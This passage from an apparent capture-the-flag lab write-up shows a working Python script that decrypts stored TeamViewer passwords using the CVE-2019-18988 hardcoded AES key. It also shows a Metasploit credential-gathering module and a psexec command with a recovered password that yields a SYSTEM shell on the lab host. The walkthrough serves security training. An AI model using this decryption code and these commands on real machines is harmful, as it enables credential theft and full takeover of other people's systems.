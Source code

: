 ```python
from Crypto.Cipher import AES
from binascii import unhexlify

# Convert encrypted password from decimal to hex
cipher = unhexlify("".join([format(dec,"x") for dec in [255,155,28,115,214,107,206,49,172,65,62,174,19,27,70,79,88,47,108,226,209,225,243,218,126,141,55,107,38,57,78,91]]))

# CVE-2019-18988
# KEY and IV from: https://whynotsecurity.com/blog/teamviewer/
key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"

# Use AES-128-CBC mode with KEY and IV
aes = AES.new(key, AES.MODE_CBC, iv)
# Decrypt password
password = aes.decrypt(cipher)
# Remove null-bytes
password.strip(b"\x00")

# Convert to ascii
print(f"[+] Decrypted password: {''.join([chr(char) for char in password])}\n")
```

We can now run our program and get the password.

```bash
root@darkness:~# python3 decrypt.py
[+] Decrypted password: !R3m0te!
```

#### Using Metasploit to recover the password

Assuming that we got a meterpreter session, we can also use Metasploit's `teamviewer_password` module to get the password.

```ruby
msf5 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
```

#### Getting a shell as system

Now that we have the password, we can use psexec to get a shell as system.

```bash
root@darkness:~# psexec.py 'Administrator:!R3m0te!@10.10.10.180'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.180.....
[*] Found writable share ADMIN$
[*] Uploading file YVRjByzu.exe
[*] Opening SVCManager on 10.10.10.180.....
[*] Creating service fqMu on 10.10.10.180.....
[*] Starting service fqMu.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
